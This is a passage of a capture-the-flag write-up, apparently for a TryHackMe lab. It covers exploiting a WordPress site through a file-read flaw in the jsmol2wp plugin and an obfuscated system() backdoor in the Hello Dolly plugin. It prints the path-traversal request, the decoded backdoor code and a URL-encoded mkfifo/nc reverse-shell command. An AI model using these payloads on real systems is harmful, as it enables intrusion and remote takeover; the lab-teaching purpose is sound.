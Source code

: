 


# EXPLOITATION
---


![](gitbook/cybersecurity/images/Pasted%252520image%25252020250127160833.png)

We got access to the WordPress panel, let's look around for anything that could get as a shell:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250127160915.png)

If we go to `pages`, we can see something called `Webmaster Tasks`, if we check the file, we can find the following:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250127160952.png)

Most important thing would be the first thing on the list, which talks about a backdoor on the `Hello Dolly` plugin, using the same PoC from earlier, we can make a request to: 

```
http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-content/plugins/hello.php
```

And view the contents of the plugin:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250127161117.png)

We can see the following line on the code, let's decode the base64:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250127161206.png)

We got `if (isset($_GET["\143\155\x64"])) { system($_GET["\143\x6d\144"]); } `, we can decode the variable names using:

`php -r 'echo "\143\155\x64" . ":" . "\143\x6d\144";'`


![](gitbook/cybersecurity/images/Pasted%252520image%25252020250127161313.png)

We got `cmd`, let's breakdown the functionality of the backdoor:

```ad-summary
1. It decodes the `base64` string, which brings up the code we found.
2. It executes the code using the `eval()` function.
3. The decoded code runs what's been passed using `cmd` `GET` parameter using `system` function.
```


We can go to the dashboard and we can check that the plugin is running there:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250127161615.png)

So, we could send a decoded reverse shell in the following way, we would need to visit this URL:

`http://www.smol.thm/wp-admin/?cmd=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fbash%20-i%202%3E%261%7Cnc%20IP%20PORT%20%3E%2Ftmp%2Ff`
